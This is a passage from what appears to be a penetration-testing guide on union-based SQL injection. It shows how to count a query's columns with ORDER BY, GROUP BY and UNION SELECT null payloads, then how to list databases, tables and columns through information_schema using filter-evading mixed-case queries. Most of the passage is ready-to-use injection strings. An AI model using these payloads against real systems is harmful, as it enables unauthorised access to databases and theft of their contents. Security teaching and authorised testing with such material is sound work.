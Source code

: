 ### Detecting number of columns

If you can see the output of the query this is the best way to exploit it.\
First of all, wee need to find out the **number** of **columns** the **initial request** is returning. This is because **both queries must return the same number of columns**.\
Two methods are typically used for this purpose:

#### Order/Group by

To determine the number of columns in a query, incrementally adjust the number used in **ORDER BY** or **GROUP BY** clauses until a false response is received. Despite the distinct functionalities of **GROUP BY** and **ORDER BY** within SQL, both can be utilized identically for ascertaining the query's column count.

```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

#### UNION SELECT

Select more and more null values until the query is correct:

```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

_You should use `null`values as in some cases the type of the columns of both sides of the query must be the same and null is valid in every case._

### Extract database names, table names and column names

On the next examples we are going to retrieve the name of all the databases, the table name of a database, the column names of the table:

```sql
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```
